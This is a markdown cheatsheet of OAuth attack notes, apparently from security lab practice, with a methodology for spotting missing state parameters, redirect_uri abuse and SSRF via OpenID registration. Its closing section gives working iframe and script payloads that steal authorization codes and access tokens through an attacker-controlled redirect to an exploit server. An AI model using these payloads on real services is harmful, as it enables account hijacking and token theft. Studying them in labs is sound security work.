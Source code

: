 # OAuth - CHEATSHEET + IMPORTANT LABS

## Key Terms
```
- SAML based SSO (single sign-on)
- OpenID Connect
- OAuth Grant Types:
	> authorization code
	> implicit (token via browser)
```
## Most important labs
- [Forced-OAuth-profile-linking-(no-state-param+CSRF)](Forced-OAuth-profile-linking-(no-state-param+CSRF).md)

- [OAuth-account-hijacking-via-redirect_uri](OAuth-account-hijacking-via-redirect_uri.md)

- [SSRF-via-OpenID-dynamic-client-registration](SSRF-via-OpenID-dynamic-client-registration.md)

- [Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit)](Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit).md)

## Methodology
```bash
- Search for a specific provider and look for endpoints in the documentation
- response_type=token? -> implicit grant
- No state param? -> CSRF
- OpenID? -> try register + SSRF
- redirect_url? 
    > try arbitrary redirect
    > try path traversal
```
## Cheat Sheet
```bash
# OPENID CONNECT
/.well-known/openid-configuration 
/.well-known/jwks.json
/reg -> redirect_uris, logo_uri  -> registrar usuario + obtener client_id +  SSRF
/client/<client_id/logo 
```
## Payloads examples
```js
<iframe src="<IP>/oauth-linking?code=STOLEN-CODE"></iframe>
//----------------------//
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>f&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
//----------------------//
<script>
  if (!document.location.hash) {
    window.location = 'https://<OAUTH-IP>/auth?client_id=g4c0gltgknmy2ycmupioa&redirect_uri=<IP-LAB>/oauth-callback/../post/next?path=https://exploit-0a4c006b039157ca80ddf7830129001d.exploit-server.net&response_type=token&nonce=1727033259&scope=openid%20profile%20email';
  } else {
    window.location = '/?' + document.location.hash.substr(1);
  }
</script>
```


